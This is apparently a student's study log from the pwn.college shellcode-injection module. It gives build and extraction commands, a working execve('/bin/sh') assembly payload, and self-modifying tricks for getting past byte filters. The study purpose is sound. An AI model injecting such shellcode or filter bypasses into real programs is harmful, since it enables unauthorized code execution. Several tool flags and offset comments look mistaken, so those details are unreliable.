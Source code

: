 ```yaml
---
date: 2024-01-28
topic: pwn.college - shellcode injection
tags: technical, shellcode, pwn.college, assembly, security, injection, low-level
---
```


# Brief

In [pwn.college](https://pwn.college/), I'm currently learning about [shellcode injection](https://pwn.college/program-security/shellcode-injection).

# What I Learned

## pwn.college - Shellcode Injection

* you can compile assembly code using `gcc -nostdlib -static <assembly_file> -o <object_file>`.
* then we can disassemble the object file using `objdump -d <object_file>`. you can specify the architecture using `-m <arch>` option. for example I'm using untel syntax, so I need to specify the architecture using `-m intel`.
* then to get the shellcode, we can use `objcopy` command: `objcopy --dump-section .text=<output_file> <object_file>`.
* to view the hexdump of the shellcode, we can use `hd <output_file>`.
* this is the example for executing `/bin/sh` using shellcode:

```asm
.global _start
_start:
.intel_syntax noprefix
    mov rax, 59
    lea rdi, [rip+binsh]
    mov rsi, 0
    mov rdx, 0
    syscall
binsh:
    .string "/bin/sh"
```

* using `mov *, rdi` or `mov *, rax` will generate opcode `48` which we want to avoid. using `lea` also didn't solve the problem. weirdly, using  registry `r8` or `r9` will not generate opcode `48`. so we can use `mov r8, rdi` and `mov rdi, r8` to avoid opcode `48`.
* we can write data to a pointer, specially `rip` so it will be executed later on when the program reaches that point. for example, to replace `syscall` which is translates to these 2 bytes: `0f 05`, we can use the following:

```asm
    mov byte ptr [rip + 7], 0x0f # 7 is the offset, because next instruction is 7 bytes long
    mov byte ptr [rip + 1], 0x05 # 1 is the offset, because next instruction is 1 bytes long
    nop # placeholder to be replaced
    nop # placeholder to be replaced
```

# Ideas to Explore in the Future

-
